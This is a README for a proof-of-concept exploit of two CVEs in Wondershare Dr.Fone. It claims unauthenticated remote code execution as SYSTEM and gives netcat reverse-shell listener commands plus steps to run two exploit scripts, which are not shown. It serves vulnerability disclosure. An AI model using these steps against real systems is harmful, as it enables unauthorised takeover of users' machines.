 # WonderShell
# CVE - 2021-44595 & CVE - 2021-44596

## Discovered by
Netanel Cohen and Tomer Peled a Security Researchers from BugSec.

## Details
POC example to exploit [Wondershare Dr.Fone](https://drfone.wondershare.com/) .
Dr.Fone is a phone tool-kit develop by wondershare , vulnerable to RCE.
As unauthenticated user we manage to execute remote code as SYSTEM user.

Vulnerable services:
>InstallAssistService.exe\
>ElevationService.exe

Tested on versions : 12.0.7 , 11.4

## Usage
Change ip and port and execute.

```
stty raw -echo; (stty size; cat) | nc -lvnp 1338
./ElevationServiceRCE.py
```

```
nc -lvnp 1337
./InstallAssistServiceRCE.py
```


## Publications


